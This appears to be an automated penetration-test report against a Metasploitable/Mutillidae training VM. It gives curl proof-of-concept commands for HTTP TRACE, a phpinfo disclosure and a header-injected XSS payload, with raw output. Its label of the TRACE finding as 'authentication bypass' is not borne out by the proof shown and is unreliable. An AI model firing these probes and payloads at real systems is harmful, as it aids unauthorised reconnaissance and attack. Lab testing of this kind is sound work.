 ### HTTP TRACE Authentication Bypass
- **Target**: 10.1.3.2:80
- **Risk Level**: MEDIUM
- **Risk Description**: No description available
- **Details**: HTTP TRACE method exploited for authentication bypass
- **PoC**: `curl -X TRACE http://10.1.3.2`
- **Proof**: HTTP TRACE method enabled: % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed

  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 10.1.3.2:80...
* Connected to 10.1.3.2 (10.1.3.2) port 80
* using HTTP/1.x
> TRACE / HTTP/1.1
> Host: 10.1.3.2
> User-Agent: curl/8.15.0
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Date: Wed, 03 Sep 2025 21:28:21 GMT
< Server: Apache/2.2.8 (Ubuntu) DAV/2
< Transfer-Encoding: chunked
< Content-Type: message/http
< 
{ [85 bytes data]

100    74    0    74    0     0  37279      0 --:--:-- --:--:-- --:--:-- 74000
* Connection #0 to host 10.1.3.2 left intact
TRACE / HTTP/1.1
Host: 10.1.3.2
User-Agent: curl/8.15.0
Accept: */*
- **Proof File**: outputs/10.1.3.2_http_trace_proof.txt

### phpinfo Intelligence Gathering
- **Target**: 10.1.3.2:80
- **Risk Level**: MEDIUM
- **Risk Description**: No description available
- **Details**: System intelligence extracted: phpinfo.php intelligence gathered: System: Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686; Document Root: unknown; Dangerous functions available: exec, system, shell_exec
- **PoC**: `curl http://10.1.3.2/phpinfo | grep -E '(System|DOCUMENT_ROOT|disable_functions)'`
- **Proof**: phpinfo.php intelligence gathered: System: Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686; Document Root: unknown; Dangerous functions available: exec, system, shell_exec
- **Proof File**: outputs/10.1.3.2_http_phpinfo_proof.txt

### Header XSS Reflection
- **Target**: 10.1.3.2:80
- **Risk Level**: MEDIUM
- **Risk Description**: No description available
- **Details**: Header-based XSS reflection on http://10.1.3.2/mutillidae/browser-info.php via Referer/User-Agent
- **PoC**: `curl -H 'Referer: <script>alert(1337)</script>' -A '<script>alert(1337)</script>' 'http://10.1.3.2/mutillidae/browser-info.php'`
- **Proof**: Header-based XSS reflection on http://10.1.3.2/mutillidae/browser-info.php via Referer/User-Agent
- **Proof File**: outputs/10.1.3.2_http_header_xss_proof.txt
